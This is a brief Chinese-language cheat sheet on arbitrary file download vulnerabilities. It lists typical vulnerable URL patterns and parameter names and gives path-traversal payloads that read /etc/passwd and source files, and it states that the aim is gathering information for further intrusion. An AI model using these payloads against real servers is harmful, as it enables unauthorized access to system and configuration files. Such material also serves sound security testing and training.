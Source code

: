   

### 黑盒检测

- 漏洞扫描工具

- 公开漏洞
- 手工查看参数值及功能点（资源下载）

### 一般链接形式

- download.php?path=
- download.php?file=

- down.php?file=

- data.php?file=

- readfile.php?file=

- read.php?filename=


### 包含参数

- &RealPath=
- &FilePath=
- &ﬁlepath=
- &Filepath=
- &Path=
- &path=
- &inputFile=
- &Inputfile=
- &url=
- &urls=
- &Lang=
- &dis=
- &data=
- &Data=
- &readﬁle=
- &ﬁlep=
- &src=
- &menu=
- META-INF
- WEB-INF

### 漏洞利用

任意文件下载漏洞的利用主要是为了信息收集，我们通过对服务器配置文件的下载，获取到大量的配置信息、源码，从而根据获取的信息来进一步挖掘服务器漏洞从而入侵。

**index.php?f=…/…/…/…/…/…/etc/passwd**

**index.php?f=…/index.php**

**index.php?f=ﬁle:///etc/passwd**

**readfile.php?file=/etc/passwd**
